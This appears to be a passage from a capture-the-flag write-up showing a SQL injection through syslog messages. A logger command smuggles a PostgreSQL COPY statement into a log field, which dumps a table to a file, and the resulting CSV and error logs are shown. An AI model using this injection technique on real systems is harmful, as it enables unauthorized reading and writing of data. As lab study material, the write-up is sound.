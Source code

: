 

This is interesting, because the `$$` seems to have reached bash, where
it was evaluated as the current pid. I try now to escape those:



    roy@zetta:/var/log/postgresql$ logger -p local7.info "sd',null); COPY (SELECT * from syslog_lines) To \$$/tmp/output.csv\$$ With CSV;-- -"



No error. And I see a table dump in `/tmp/output.csv`:



    3,,,,,,, test message\\\,,,,,,,,,,,,,,,,
    4,,,,,,, test message\\\,,,,,,,,,,,,,,,,
    5,,,,,,, test message\\\,,,,,,,,,,,,,,,,
    8,,,2019-09-01 14:48:17,,,," test message13348,null); select * from syslog_liness --",,,,,,,,,,,,,,,,
    9,,,2019-09-01 14:48:35,,,," test13348, 13348test13348); --",,,,,,,,,,,,,,,,
    10,,,2019-09-01 14:48:38,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
    11,,,2019-09-01 14:48:46,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
    12,,,2019-09-01 14:48:56,,,," test13348, 13348test13348); s--",,,,,,,,,,,,,,,,
    13,,,2019-09-01 14:50:00,,,, $,,,,,,,,,,,,,,,,
    14,,,2019-09-01 14:50:08,,,, 13348,,,,,,,,,,,,,,,,
    15,,,,,,, \\\,,,,,,,,,,,,,,,,
    16,,,,,,, \\\,,,,,,,,,,,,,,,,
    19,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    22,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    23,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    24,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    25,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    26,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    31,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    32,,,,,,, sd\\\,,,,,,,,,,,,,,,,
    33,,,2019-09-01 17:45:02,,,, test,,,,,,,,,,,,,,,,
    34,,,,,,, test\,,,,,,,,,,,,,,,,
    35,,,,,,, test\,,,,,,,,,,,,,,,,
    36,,,,,,, test\,,,,,,,,,,,,,,,,
    37,,,,,,, test\,,,,,,,,,,,,,,,,
    38,,,,,,, test\,,,,,,,,,,,,,,,,
    41,,,,,,, test\,,,,,,,,,,,,,,,,
    44,,,,,,, sd\,,,,,,,,,,,,,,,,
    45,,,,,,, sd\,,,,,,,,,,,,,,,,



I can add a error after the last `;` to get it to dump what it's seeing:



    2019-09-01 14:11:34.881 EDT [15740] postgres@syslog ERROR:  syntax error at or near "0" at character 144
    2019-09-01 14:11:34.881 EDT [15740] postgres@syslog STATEMENT:  INSERT INTO syslog_lines (message, devicereportedtime) values (' sd\',null); COPY (SELECT * from syslog_lines) To $$/tmp/output.csv$$ With CSV;0xdf-- -','2019-09-01 18:11:34')
